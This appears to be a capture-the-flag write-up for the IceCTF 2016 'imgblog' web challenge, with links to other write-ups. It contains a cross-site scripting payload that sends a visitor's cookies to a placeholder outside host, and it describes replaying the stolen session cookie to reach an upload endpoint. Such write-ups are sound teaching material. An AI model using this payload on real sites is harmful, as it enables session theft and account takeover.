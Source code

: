 # IceCTF-2016 : imgblog-130

**Category:** Web
**Points:** 130
**Description:**

I found this amazing blog about Iceland! Did I ever tell you that I love Iceland? It seems to be made from scratch by a single guy although being impressive, he doesn't seem too have much experience with web programming. Can you see if you can find any vulnerabilites to pwn his machine?

## Writeup

The description indicates the victim's machine is the intended target. From there, we can assume it has something to do with the backend / server portion of the challenge. After some looking around, the session cookie turns out to be the one vector really open to attack. To collect the cookie, use a website to collect the request like [requestbin](http://requestb.in/), and paste the following HTML tag into the DOM, so the browser executes it, and sends your cookeis to the requestbin server: `<script>image=new Image();image.src='http://a.b.c.d:40001/?'+document.cookie;</script>`. Next, find a request sender like [hurl.it](https://hurl.it) and send a POST request to `/upload` (you can find that by tracing an upload) with `HTTP/1.1`, the host `imgblog.vuln.icec.tf` with the session cookie you got in your request bin. 

## Other write-ups and resources

* https://tsublogs.wordpress.com/2016/08/26/icectf-imgblog-web130/
* https://chrisissing.wordpress.com/2016/08/21/icectf-imgblog-write-up/
* https://github.com/73696e65/ctf-notes/blob/master/2016-IceCTF/ImgBlog-Web-120.txt
* https://github.com/318BR/IceCTF/tree/master/2016/Stage4/ImgBlog
* https://github.com/TeamContagion/CTF-Write-Ups/blob/master/icectf-2016/Web/ImgBlog
